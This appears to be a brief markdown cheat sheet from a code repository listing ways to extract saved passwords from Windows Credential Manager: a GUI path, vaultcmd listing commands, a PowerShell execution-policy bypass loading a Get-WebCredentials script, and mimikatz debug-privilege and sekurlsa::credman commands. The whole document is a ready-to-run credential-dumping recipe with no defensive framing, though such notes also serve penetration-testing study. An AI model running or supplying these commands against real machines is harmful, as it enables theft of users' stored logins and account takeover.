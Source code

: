 # GUI

### Control Panel -> User accounts -> Credential Manager

# CMD

#### 1) vaultcmd /list

#### 2) vaultcmd /listproperties:"Web Credentials" or "Windows Credentials"

#### 3) vaultcmd /listcreds:"Web Credentials or "Windows Credentials"

#### 4) Powershell.exe -ex bypass

#### 5) Import-Module c:\tools\Get-WebCredentials.ps1

#### 6) Get-WebCredentials.ps1

# MIMIKATZ

#### 1) mimikatz

#### 2) privilege::debug

#### 3) sekurlsa::credman
